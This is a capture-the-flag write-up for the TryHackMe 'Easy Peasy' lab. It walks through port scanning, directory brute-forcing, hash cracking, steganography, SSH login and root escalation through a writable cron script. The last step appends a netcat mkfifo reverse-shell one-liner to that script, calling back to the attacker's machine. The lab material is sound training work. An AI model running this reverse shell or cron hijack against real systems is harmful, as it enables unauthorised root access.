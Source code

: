 # Easy Peasy Writeup

Challenge available here: https://tryhackme.com/room/easypeasyctf

## TASK 1 [Enumeration with Nmap]
We'll start our enumeration process by running an nmap scan. However, I will actually be using rustscan, as it has a few extra performance bells and whistles that I prefer. So, we'll run this command:  
rustscan -a 10.10.153.96 -- -sC -sV -oA 10.10.153.96 -v -A  
with this command, we get these results:

PORT      STATE SERVICE REASON  VERSION  
80/tcp    open  http    syn-ack nginx 1.16.1  
| http-methods:   
|_  Supported Methods: GET HEAD  
| http-robots.txt: 1 disallowed entry   
|_/  
|_http-server-header: nginx/1.16.1  
|_http-title: Welcome to nginx!  
6498/tcp  open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:   
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)  
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCf5hzG6d/mEZZIeldje4ZWpwq0zAJWvFf1IzxJX1ZuOWIspHuL0X0z6qEfoTxI/o8tAFjVP/B03BT0WC3WQTm8V3Q63lGda0CBOly38hzNBk8p496scVI9WHWRaQTS4I82I8Cr+L6EjX5tMcAygRJ+QVuy2K5IqmhY3jULw/QH0fxN6Heew2EesHtJuXtf/33axQCWhxBckg1Re26UWKXdvKajYiljGCwEw25Y9qWZTGJ+2P67LVegf7FQu8ReXRrOTzHYL3PSnQJXiodPKb2ZvGAnaXYy8gm22HMspLeXF2riGSRYlGAO3KPDcDqF4hIeKwDWFbKaOwpHOX34qhJz  
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN8/fLeNoGv6fwAVkd9oVJ7OIbn4117grXfoBdQ8vY2qpkuh30sTk7WjT+Kns4MNtTUQ7H/sZrJz+ALPG/YnDfE=  
|   256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICNgw/EuawEJkhJk4i2pP4zHfUG6XfsPHh6+kQQz3G1D  
65524/tcp open  http    syn-ack Apache httpd 2.4.43 ((Ubuntu))  
| http-methods:   
|_  Supported Methods: OPTIONS HEAD GET POST  
| http-robots.txt: 1 disallowed entry   
|_/  
|_http-server-header: Apache/2.4.43 (Ubuntu)  
|_http-title: Apache2 Debian Default Page: It works  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

How many ports are open? [3]

What is the version of nginx? [1.16.1]

What is running on the highest port? [Apache]

## TASK 2 [Compromising the Machine]
Before continuing, lets download the easypeasy.txt file provided to us, as it may be useful. Upon opening it, we see its a wordlist of passwords! I'm sure we'll need this later. Now continuing with the excersize...
Since we see an obvious http server on the machine, we can run gobuster to scan for any directories that may be hidden on the server. We'll do that with this command: gobuster dir -u http://10.10.153.96/ -w /usr/share/wordlists/dirb/common.txt -o dirs.log
Where dir indicates directory mode, -u [url] -w [wordlist] -o [outputfile]
with this scan, we find two files and a directory:
/hidden               (Status: 301) [Size: 169] [--> http://10.10.153.96/hidden/]
/index.html           (Status: 200) [Size: 612]                                  
/robots.txt           (Status: 200) [Size: 43] 
The homepage is just a welcome screen indicating a successful server installation. Obviously, there is going to be more to this box than that.
First, lets check out the robots.txt file and see if there's anything off about it.
User-Agent:*
Disallow:/
Robots Not Allowed

A fairly normal robots.txt file... lets check that directory. /hidden gives us this picture:
![lost-places-1928727_960_720](https://user-images.githubusercontent.com/93058891/152861022-0d899765-34ee-44ef-be5f-293a3b6dad85.jpg)
However, I'm going to ignore the picture for now asnd instead run another gobuster scan on the /hidden directory with this command: 
gobuster dir -u http://10.10.153.96/hidden -w /usr/share/wordlists/dirb/common.txt -o dirsh.log 
results find two items:
/index.html           (Status: 200) [Size: 390]
/whatever             (Status: 301) [Size: 169] [--> http://10.10.153.96/hidden/whatever/]

Visiting this directory gives us this image:
![norway-772991_960_720](https://user-images.githubusercontent.com/93058891/152862426-d37fc980-24d8-4207-bb45-77076e5ccf27.jpg)
But worse, the title text tells us "dead end". I guess we'll investigate these pictures now. We'll start by simply inspecting the source code of the pages. The first looks normal, but on the second one, we find this...

<p hidden="">ZmxhZ3tmMXJzN19mbDRnfQ==</p>

Let's use Cyberchef to decode it. Putting the text inside the HTML into Cyberchef gives us our first flag!

Let's now move on to the other http server on the machine. To do this, just add :65524 to the end of the IP in the URL. The homepage of the site is an Apache default page. Let's run another gobuster scan on this server like this, with the port in the url: 

gobuster dir -u http://10.10.153.96:65524/ -w /usr/share/wordlists/dirb/common.txt -o dirs6.log

Nothing of note other than a robots.txt file. This one looks a little different though:

User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions

That second User-Agent looks like a hash. Trying the usual sites doesn't seem to yield a result, though. With enough research, we are able to find a site that cracks it. The result is the second flag! Now if we want to find the third flag, we can just inspect the source of the page on the 65524 port to find it.

The exercise hints at a hidden directory but gobuster failed to find anything. So let's inspect the source code. In the source, we find this line: 
<p hidden>its encoded with ba....:REDACTED</p>

This looks like an encrypting algorithm. Using the hint provided by the code, we eventually find the directory. Visiting the directory takes us to this screen:
![matrix-3109795_960_720](https://user-images.githubusercontent.com/93058891/154327480-ba5d1ebb-4f6a-4ba8-a836-dbefcdd7b01b.jpg)  
Being just another image, we'll inspect the source code. In it, we find this interesting line:    
<p>9[REDACTED]1</p>  
Using Cyberchef, we determine that this is likely a SHA-256 hash. We'll bruteforce it with the easypeasy.txt file. We'll use this command:     
   
john --wordlist=easypeasy.txt --format=gost hash.txt
  
The end result provides us with a password!  
With the password, wi then look through the directory to find a jpg file. We'll crack it using steghide. Upon Cracking, we find a secrettext.txt file. lets open that. The file contains a username and a binary encoded password. Let's decode it! 
Now with the username and password in hand, lets login with ssh:    
ssh -p 6498 boring@10.10.153.96    
Now inside the box, we find the user.txt file in the home directory. Something seems wrong with it though...  
User Flag But It Seems Wrong Like It's Rotated Or Something  
synt{REDACTED}  
We'll use a Caesar Cipher to crack the code. Upon cracking, we get the flag!  
Now all thats left is the root flag. First, I'll check sudo -l:  
Sorry, user boring may not run sudo on kral4-PC.  
Darn, thought I had something there. Looking at the tryhackme challenge page, it says the box has a vulnerable cronjob. So let's run:    
cat /etc/crontab   
SHELL=/bin/sh  
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin  
  
m h dom mon dow user  command  
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly  
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )  
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )  
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )  
  
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh  

I think we found it. Let's check if it's writeable. We go to the www directory and find:  
boring@kral4-PC:/var/www$ ls -la  
total 16  
drwxr-xr-x  3 root   root   4096 Jun 15  2020 .  
drwxr-xr-x 14 root   root   4096 Jun 13  2020 ..  
drwxr-xr-x  4 root   root   4096 Jun 15  2020 html  
-rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh  

It is! This means we can use it to spawn a root shell using netcat. We'll edit the fie with this command:  

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.92.60 4445 >/tmp/f" >> /var/www/.mysecretcronjob.sh  

Now on our own machine we type:  
nc -lvnp 4445  
This should give us a root shell. Once we're in, all we need to do is run:  
cat /root/.root.txt  
And we get the flag!





























